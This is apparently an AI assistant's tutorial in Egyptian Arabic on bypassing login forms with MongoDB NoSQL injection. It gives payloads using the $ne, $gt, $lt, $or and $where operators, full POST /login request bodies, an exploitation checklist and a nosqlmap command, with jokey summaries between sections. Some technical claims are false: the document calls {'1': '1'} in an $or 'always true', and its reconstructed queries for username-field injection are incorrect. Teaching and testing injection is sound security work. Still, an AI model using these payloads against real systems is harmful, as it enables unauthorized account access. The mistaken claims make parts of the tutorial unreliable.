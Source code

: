 تمام، هنشرح تقنيات تجاوز المصادقة باستخدام **NoSQL Injection** بعمق عملي مع أكواد وتفاصيل، وهنركز على الجوانب اللي تهمك كـ pentester. هقسم الموضوع لأجزاء عن التقنيات المختلفة، وبعد كل جزء هحط خلاصة طريفة بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال. يلا نبدأ!

---

### **1. استخدام العامل `$ne` (غير مساوي)**
#### **إيه هو؟**
في قواعد NoSQL زي MongoDB، العامل `$ne` (Not Equal) بيخليك تتخطى شرط معين في الاستعلام لو المطور معملش فلترة كويسة للمدخلات.

#### **ازاي بيشتغل؟**
بدل ما تدخل قيمة باسوورد صحيحة، بتحط تعبير `$ne` مع قيمة غلط، فالاستعلام بيبقى دايماً صح لأنه بيقارن بـ "مش مساوي" بدل "مساوي".

#### **مثال عملي:**
- الاستعلام الأصلي في الباك إند:
  ```javascript
  db.users.find({ username: "admin", password: "12345" });
  ```
- جرب في حقل الباسوورد:
  ```
  {"$ne": "wrong"}
  ```
  الاستعلام هيبقى:
  ```javascript
  db.users.find({ username: "admin", password: {"$ne": "wrong"} });
  ```
  معناه: "جيب اليوزر admin طالما الباسوورد مش wrong"، يعني أي باسوورد صح هيدخلك.

- **اختبار يدوي:**
  لو الموقع بيستخدم JSON في الطلب:
  ```
  POST /login
  {"username": "admin", "password": {"$ne": "wrong"}}
  ```
  لو دخلت، يبقى نجح.

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "أنا أحمد وكلمة السر مش بطيخ"، لو قالك "اتفضل" من غير ما يسألك عن الكلمة الصح، يبقى الباب اتفتح بمزاجك!

---

### **2. استخدام العامل `$gt` أو `$lt` (أكبر من/أقل من)**
#### **إيه هو؟**
العاملين `$gt` (Greater Than) و `$lt` (Less Than) بيسمحولك تتخطى المصادقة باستخدام مقارنات بدل المساواة.

#### **ازاي بيشتغل؟**
بتحط شرط بيقول "الباسوورد أكبر من قيمة فاضية" مثلاً، فالاستعلام بيبقى صح دايماً طالما الباسوورد موجود.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```javascript
  db.users.find({ username: "admin", password: "12345" });
  ```
- في حقل الباسوورد:
  ```
  {"$gt": ""}
  ```
  الاستعلام هيبقى:
  ```javascript
  db.users.find({ username: "admin", password: {"$gt": ""} });
  ```
  معناه: "جيب اليوزر admin طالما الباسوورد أكبر من فاضي"، يعني أي حاجة هتنفع.

- **اختبار بـ POST:**
  ```
  POST /login
  {"username": "admin", "password": {"$gt": ""}}
  ```
  لو الصفحة دخلتك، يبقى الثغرة شغالة.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "لو كلمة السر أكبر من الصفر، دخلني"، لو دخلت من غير ما تقول الكلمة، يبقى الكنز بتاعك ببلاش!

---

### **3. استخدام `$or` لتجاوز الشرط**
#### **إيه هو؟**
العامل `$or` بيخليك تضيف شرط دايماً صح (True) للاستعلام، فتتخطى المصادقة حتى لو الباسوورد غلط.

#### **ازاي بيشتغل؟**
بتضيف `$or` مع شرط زي `"1": "1"`، فالاستعلام بيبقى دايماً صح بغض النظر عن الباسوورد.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```javascript
  db.users.find({ username: "admin", password: "12345" });
  ```
- في حقل اليوزر نيم:
  ```
  {"$or": [{"username": "admin"}, {"1": "1"}]}
  ```
  وفي الباسوورد أي حاجة (زي `test`). الاستعلام هيبقى:
  ```javascript
  db.users.find({ "$or": [{"username": "admin"}, {"1": "1"}], password: "test" });
  ```
  الـ `"1": "1"` دايماً صح، فهيدخلك حتى لو الباسوورد غلط.

- **اختبار بـ POST:**
  ```
  POST /login
  {"username": {"$or": [{"username": "admin"}, {"1": "1"}]}, "password": "test"}
  ```

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "أنا أحمد أو أنا أي حد عايز يدخل"، لو فتحلك الباب، يبقى هو اللي بيحب يساعدك بمزاجه!

---

### **4. استخدام `$where` لتشغيل JavaScript**
#### **إيه هو؟**
في MongoDB، العامل `$where` بيخليك تشغل كود JavaScript في الاستعلام. لو الموقع بيسمح بده، تقدر تتخطى المصادقة أو تسحب بيانات.

#### **ازاي بيشتغل؟**
بتكتب تعبير JavaScript دايماً بيرجع `true` أو بيستخرج بيانات معينة.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```javascript
  db.users.find({ username: "admin", password: "12345" });
  ```
- في حقل اليوزر نيم:
  ```
  {"$where": "1 == 1"}
  ```
  الاستعلام هيبقى:
  ```javascript
  db.users.find({ "$where": "1 == 1", password: "whatever" });
  ```
  الـ `1 == 1` دايماً صح، فهيدخلك.

- **سحب بيانات:**
  ```
  {"$where": "this.username == 'admin'"}
  ```
  لو رد الموقع بنجاح، يبقى تقدر تلعب أكتر.

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "لو واحد زاي واحد، دخلني"، لو دخلت يبقى البواب بيحب الرياضيات وفتحلك الباب بسهولة!

---

### **خطوات عملية للاستغلال كـ Pentester**
1. **اختبار `$ne`:**
   - في فورم لوجين، حط في الباسوورد:
     ```
     {"$ne": "wrong"}
     ```
     لو دخلت، يبقى الثغرة شغالة.

2. **اختبار `$gt` أو `$lt`:**
   - جرب:
     ```
     {"$gt": ""}
     ```
     أو:
     ```
     {"$lt": "z"}
     ```
     لو نجحت، دوّن الطريقة.

3. **اختبار `$or`:**
   - استخدم:
     ```
     {"$or": [{"username": "admin"}, {"1": "1"}]}
     ```
     في اليوزر نيم، وأي باسوورد، وشوف لو بيدخل.

4. **اختبار `$where`:**
   - جرب:
     ```
     {"$where": "1 == 1"}
     ```
     لو نجح، حاول تستخرج بيانات زي:
     ```
     {"$where": "this.username == 'admin'"}
     ```

5. **استخدام أدوات (NoSQLmap):**
   - شغل:
     ```
     nosqlmap -u "http://example.com/login.php?username=admin&password=test"
     ```
     واختار خيار "Authentication Bypass" لو موجود.

#### **نصيحة:**
- استخدم Burp Suite عشان تعترض الطلب وتحط الـ Payloads دي يدويًا.
- لو الموقع بيرجع أخطاء، دوّنها عشان تعرف نوع الداتابيز (MongoDB مثلاً).

---

ها، عايز أشرح حاجة زيادة زي ازاي تستخرج بيانات بعد التجاوز أو أعمق في NoSQLmap؟